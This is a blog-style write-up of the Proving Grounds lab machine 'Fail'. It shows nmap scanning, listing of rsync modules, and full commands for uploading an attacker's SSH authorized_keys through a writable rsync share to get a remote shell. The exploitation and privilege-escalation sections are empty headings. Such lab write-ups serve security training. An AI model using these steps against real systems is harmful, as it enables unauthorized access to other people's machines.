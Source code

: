```yaml
---
layout: post
title: PG | Fail
subtitle: You shall not pass.
---
```


# Nmap Scan Results

~~~
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-24 16:26 UTC
Nmap scan report for 192.168.194.126
Host is up (0.015s latency).
Not shown: 65533 closed tcp ports (reset)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 74:ba:20:23:89:92:62:02:9f:e7:3d:3b:83:d4:d9:6c (RSA)
|   256 54:8f:79:55:5a:b0:3a:69:5a:d5:72:39:64:fd:07:4e (ECDSA)
|_  256 7f:5d:10:27:62:ba:75:e9:bc:c8:4f:e2:72:87:d4:e2 (ED25519)
873/tcp open  rsync   (protocol version 31)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.36 seconds
~~~

# Service Enumeration

## Rsync (TCP/873)
Rsync is a directory sharing protocol used on Unix systems

The protocol can be scanned for available folders using an nmap script
~~~
nmap -sV --script "rsync-list-modules" -p 873 192.168.194.126
~~~
~~~
PORT    STATE SERVICE VERSION
873/tcp open  rsync   (protocol version 31)
| rsync-list-modules: 
|_  fox                 fox home
~~~

The contents of the fox folder revealed the contents of an empty home directory
~~~
rsync -av --list-only rsync://192.168.194.126/fox
~~~
~~~
receiving incremental file list
drwxr-xr-x          4,096 2021/01/21 14:21:59 .
lrwxrwxrwx              9 2020/12/03 20:22:42 .bash_history -> /dev/null
-rw-r--r--            220 2019/04/18 04:12:36 .bash_logout
-rw-r--r--          3,526 2019/04/18 04:12:36 .bashrc
-rw-r--r--            807 2019/04/18 04:12:36 .profile

sent 20 bytes  received 136 bytes  312.00 bytes/sec
total size is 4,562  speedup is 29.24
~~~

The contents of the fox folder can be retrieved and stored locally using the command
rsync -av rsync://192.168.194.126/fox ./rsyn_shared
These files reveal no useful information to further our progress

Rsync also allows us to upload files, therefore we can generate a SSH key (as we have seen SSH TCP port 22 is enabled), then upload to the key to the machine using Rsync to
give us a remote connection to the machine.

1. Generate SSH Key

~~~
┌──(kali㉿kali)-[~/Desktop/Fail]
└─$ ssh-keygen                                       
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/kali/.ssh/id_rsa
Your public key has been saved in /home/kali/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:LvQfnvR+8TxNBfJBl+4vlOWFvrQu5HBkN6lzYPVXszk kali@kali
The key's randomart image is:
+---[RSA 3072]----+
|             .. o|
|            . ++.|
|             +.*=|
|            = *E*|
|      . S  + =.==|
|     . o  . = B.o|
|      . o o= = Bo|
|       . + +o =.=|
|          +.o+...|
+----[SHA256]-----+
~~~

2. Copy our .ssh directory locally
~~~
cp -R /home/kali/.ssh .
~~~
3. Rename id_rsa.pub (our public key) to authorized_keys before transferring to the target
~~~
┌──(kali㉿kali)-[~/Desktop/Fail]
└─$ cd .ssh
┌──(kali㉿kali)-[~/Desktop/Fail/.ssh]
└─$ mv id_rsa.pub authorized_keys
~~~

3. Upload the .ssh file (containing authorized_keys) to Rsync
~~~
rsync -av /home/kali/Desktop/Fail/.ssh rsync://fox@192.168.194.126/fox
~~~
4. SSH into the target machine
~~~
┌──(kali㉿kali)-[~/Desktop/Fail/.ssh]
└─$ ssh -i ./id_rsa fox@192.168.194.126
The authenticity of host '192.168.194.126 (192.168.194.126)' can't be established.
ED25519 key fingerprint is SHA256:mqPCrimr9j626KOGoHM+qxgHUOYD4pu1+4KzhIvu5uA.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:37: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.194.126' (ED25519) to the list of known hosts.
Linux fail 4.19.0-12-amd64 #1 SMP Debian 4.19.152-1 (2020-10-18) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
$ 
~~~

# Exploitation

# Privilege Escalation